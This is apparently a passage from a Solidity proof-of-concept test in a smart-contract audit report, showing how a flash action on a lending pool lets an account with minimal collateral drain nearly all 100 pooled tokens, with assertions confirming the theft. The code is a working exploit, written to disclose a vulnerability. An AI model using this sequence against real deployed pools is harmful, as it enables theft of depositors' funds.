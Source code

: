             //----------            STEP 1            ----------//
            // Open a margin account
            vm.startPrank(users.accountOwner);
            proxyAccount.openMarginAccount(address(pool)); 
            
            //----------            STEP 2            ----------//
            // Deposit 1 stable token in the account as collateral.
            // Note: The creditors's `minUsdValue` is set to 1 * 10 ** 18. Because
            // value is converted to an 18-decimal number and the asset is pegged to 1 dollar,
            // depositing an amount of 1 * 10 ** 6 is the actual minimum usd amount so that the 
            // account's collateral value is not considered as 0.
            depositTokenInAccount(proxyAccount, mockERC20.stable1, 1 * 10 ** 6);
            assertEq(proxyAccount.getCollateralValue(), 1 * 10 ** 18);
    
            //----------            STEP 3            ----------//
            // Create empty action data. The action handler won't withdraw/deposit any asset from the account 
            // when the `flashAction()` callback in the account is triggered. Hence, action data will contain empty elements.
            callData = _buildActionData();
    
            // Fetch balances from the action handler (who will receive all the borrowed funds from the flash action)
            // as well as the pool. 
            // Action handler balance initially has 1 token of token777 (given initially on deployment)
            assertEq(mockERC20.token777.balanceOf(address(actionHandler)), 1 * 10 ** 18);
            uint256 liquidityPoolBalanceBefore =  mockERC20.token777.balanceOf(address(pool));
            uint256 actionHandlerBalanceBefore =  mockERC20.token777.balanceOf(address(actionHandler));
            // Pool initially has 100 tokens of token777 (deposited by the liquidity provider in setUp())
            assertEq(mockERC20.token777.balanceOf(address(pool)), 100 * 10 ** 18);
    
            //----------            STEP 4            ----------//
            // Step 4. Trigger the flash action.
            vm.startPrank(users.accountOwner);
    
            pool.flashAction(100 ether , address(proxyAccount), address(actionHandler), callData, emptyBytes3);
            vm.stopPrank();
     
            
            //----------       FINAL ASSERTIONS       ----------//
    
            // Action handler (who is the receiver of the borrowed funds in the flash action) has succesfully obtained 100 tokens from 
            //the pool, and in the end it has nearly 101 tokens (initially it had 1 token, plus the 100 tokens stolen 
            // from the pool minus the small amount required to pay for the bid)
            assertGt(mockERC20.token777.balanceOf(address(actionHandler)), 100 * 10 ** 18);
    
            // On the other hand, pool has lost nearly all of its balance, only remaining the small amount paid from the 
            // action handler in order to bid
            assertLt(mockERC20.token777.balanceOf(address(pool)), 0.05 * 10 ** 18);
        
        } 
    
        /// @notice Internal function to build the `actionData` payload needed to execute the `flashActionByCreditor()` 
        /// callback when requesting a flash action
        function _buildActionData() internal returns(bytes memory) {
            ActionData memory emptyActionData;
            address[] memory to;
            bytes[] memory data;
            bytes memory actionTargetData = abi.encode(emptyActionData, to, data);
            IPermit2.PermitBatchTransferFrom memory permit;
            bytes memory signature;
            return abi.encode(emptyActionData, emptyActionData, permit, signature, actionTargetData);
        }
    }
    